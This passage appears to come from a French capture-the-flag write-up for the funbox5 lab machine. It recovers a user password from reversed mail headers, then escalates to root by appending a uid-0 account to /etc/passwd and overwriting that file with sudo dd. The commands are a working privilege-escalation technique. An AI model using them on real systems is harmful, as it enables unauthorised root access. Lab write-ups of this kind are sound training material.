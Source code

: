 ```console
Return-Path: <maria@funbox5.fritz.box>
From maria@funbox5.fritz.box  Mon Aug 31 14:56:12 2020

are you going to Jonas' party on Saturday?
Hi Ben,

X-UID: 1                                                 
X-IMAPbase: 1598894832 0000000003
Status: RO
Message-Id: <202008311247.07VCk80g014898@funbox5.fritz.box>
From: maria@funbox5.fritz.box
Date: Mon, 31 Aug 2020 14:46:08 +0200
        for ben@localhost; Mon, 31 Aug 2020 14:47:42 +0200
        by funbox5.fritz.box (8.15.2/8.15.2/Debian-3) with SMTP id 07VCk80g014898
Received: from funbox4 (localhost [127.0.0.1])
Return-Path: <maria@funbox5.fritz.box>
From maria@funbox5.fritz.box  Mon Aug 31 14:52:15 2020
```

Certaines commandes sur le système nous sont inaccessibles à cause des permissions, mais avec `tac` qui affiche les lignes à l'envers, j'ai pu retrouver un mot de passe pour `adam`.

```console
adam@funbox5:~$ sudo -l
[sudo] password for adam: 
Matching Defaults entries for adam on funbox5:
    env_reset

User adam may run the following commands on funbox5:
    (root) PASSWD: /bin/dd
    (root) PASSWD: /bin/de
    (root) PASSWD: /bin/df
adam@funbox5:~$ ls -al /bin/dd /bin/de /bin/df
ls: cannot access '/bin/de': No such file or directory
-rwxr-xr-x 1 root root 72632 Mar  2  2017 /bin/dd
-rwxr-xr-x 1 root root 97912 Mar  2  2017 /bin/df
adam@funbox5:~$ ls -ald /bin/
drwxr-xr-x 2 root root 4096 Sep  1  2020 /bin/
```

Sans trop de surprises, on ne peut pas écraser les binaires existants.

On va s'en sortir avec l'outil de copie `dd` :

```console
adam@funbox5:~$ cp /etc/passwd passwd
adam@funbox5:~$ echo devloop:ueqwOCnSGdsuM:0:0::/root:/bin/sh >> passwd
adam@funbox5:~$ dd if=passwd of=/etc/passwd
dd: failed to open '/etc/passwd': Permission denied
adam@funbox5:~$ sudo dd if=passwd of=/etc/passwd
4+1 records in
4+1 records out
2061 bytes (2.1 kB, 2.0 KiB) copied, 0.0011433 s, 1.8 MB/s
adam@funbox5:~$ su devloop
Password: 
# cd /root
# ls
flag.txt
# cat flag.txt
 _______           _                     ______                      _                       _ 
(_______)         | |                   |  ___ \             _      | |                     | |
 _____ _   _ ____ | | _   ___ _   _ _   | |   | | ____ _   _| |_    | |      ____ _   _ ____| |
|  ___) | | |  _ \| || \ / _ ( \ / |_)  | |   | |/ _  | \ / )  _)   | |     / _  ) | | / _  ) |
| |   | |_| | | | | |_) ) |_| ) X ( _   | |   | ( (/ / ) X (| |__   | |____( (/ / \ V ( (/ /| |
|_|    \____|_| |_|____/ \___(_/ \_|_)  |_|   |_|\____|_/ \_)\___)  |_______)____) \_/ \____)_|

```